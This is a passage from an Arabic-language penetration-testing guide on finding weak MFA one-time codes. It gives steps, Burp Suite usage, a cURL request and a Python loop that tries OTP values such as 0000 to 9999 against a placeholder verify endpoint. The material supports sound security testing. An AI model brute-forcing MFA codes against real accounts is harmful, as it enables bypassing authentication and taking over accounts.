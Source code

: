
---

#### **المحاولة التالتة: اختبار ضعف رموز MFA (Weak OTP/Token)**
**الهدف**: نشوف إذا كان رموز MFA (مثل OTP عبر SMS/إيميل) قصيرة، متكررة، أو قابلة للتخمين.
- **الخطوات**:
  1. سجل دخول بحساب تحت سيطرتك واطلب رمز MFA (مثل OTP عبر الإيميل أو SMS).
  2. حلل الرمز:
     - الطول: لو قصير (مثل 4 أرقام)، يبقى قابل للتخمين.
     - النمط: لو أرقام بس (مثل `1234`) أو بيتبع تسلسل، يبقى ضعيف.
     - التكرار: اطلب رموز متعددة وشوف إذا كانت بتتكرر.
  3. جرب تخمين الرمز يدويًا أو باستخدام Burp Suite Intruder:
     - أرسل طلبات بأكواد مختلفة (مثل `0000` إلى `9999` لو الرمز 4 أرقام).
  4. تحقق من صلاحية الرمز:
     - جرب استخدام نفس الرمز بعد فترة (مثل 10 دقايق) عشان تشوف إذا كان لسه صالح.
     - لو الرمز بيظل صالح لمدة طويلة (مثل ساعة)، يبقى فيه ثغرة.
  5. استخدم Burp Suite Sequencer عشان تحلل عشوائية الرموز (Randomness/Entropy).
- **البيانات اللي هنجربها**:
  - حساب: `test@example.com`.
  - رموز: `1234`، `0000`، أو تسلسل (مثل `0000` إلى `9999`).
- **النتيجة المتوقعة**:
  - نجاح: رمز قصير (مثل 4 أرقام) أو متكرر أو صالح لمدة طويلة، يعني MFA ضعيفة.
  - فشل: رمز طويل (مثل 6-8 أحرف عشوائية) وصلاحيته قصيرة (مثل 5 دقايق).
- **الأدوات**:
  - **Burp Suite Intruder**: جرب رموز متعددة.
  - **Burp Suite Sequencer**: تحليل عشوائية الرموز.
  - **cURL**:
    ```bash
    curl -X POST -d "username=test@example.com&password=password&otp_code=1234" https://target.com/mfa/verify
    ```
  - **Python Script** (لاختبار رموز متعددة):
    ```python
    import requests

    url = "https://target.com/mfa/verify"
    credentials = {"username": "test@example.com", "password": "password"}
    otps = ["0000", "0001", "0002"]

    for otp in otps:
        data = {**credentials, "otp_code": otp}
        response = requests.post(url, data=data)
        print(f"OTP: {otp}, Status: {response.status_code}, Response: {response.text[:50]}")
    ```
- **الأوامر**:
  - cURL:
    ```bash
    curl -X POST -d "username=test@example.com&password=password&otp_code=1234" https://target.com/mfa/verify
    ```
  - Python: `python test_otp_codes.py` (احفظ السكربت فوق).
  - Burp Suite Intruder:
    - اعترض طلب التحقق من OTP.
    - استخدم قائمة أكواد (مثل `0000` إلى `9999`) في حقل `otp_code`.

---